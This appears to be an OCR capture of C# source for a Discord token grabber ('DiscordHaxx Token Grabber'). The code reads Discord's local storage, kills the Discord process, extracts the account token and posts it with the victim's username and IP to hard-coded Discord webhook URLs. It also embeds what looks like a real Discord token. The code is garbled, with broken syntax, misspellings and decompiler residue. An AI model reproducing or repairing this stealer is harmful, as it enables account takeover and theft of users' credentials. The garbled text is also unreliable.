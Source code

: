 thub.com/NightfallGT/Mercurial-Grabber/releases
https://discord.com/api/webhooks/915293209297551391/KdUf0SEolCuHIeFHIQfzgJkIHbzjKuTGPtuPIwAr6FQPI0rel2fb5j7NO06iCqwxw2CN
staff
namespace DHTokenGrabber
{   
// token:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID: 365 RVA:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU file Offset:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA7nGgcZJSR9WeJs5c4W7kOSh1wqU), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/927669840855044146/QpiGODKbxCsX-_ZV9u5I_R34i2FwDayaWOxt9IgW3tO7rNF56qxGH8_LhcsVenWGaPF6").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "⛧♱𝖎𝖇𝖊𝖓𝖑𝖆𝖓𝖉⛧#9921"
                "redex token grabber"
            },
            {
                "avatar_url",
                "https://discord.com/channels/@me/910580649482674176"

            }
        };
        httpClient.PostAsync(WebHook._hookUrl, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID:366 RVA:0x00008888 File Offset:e
    
    
   
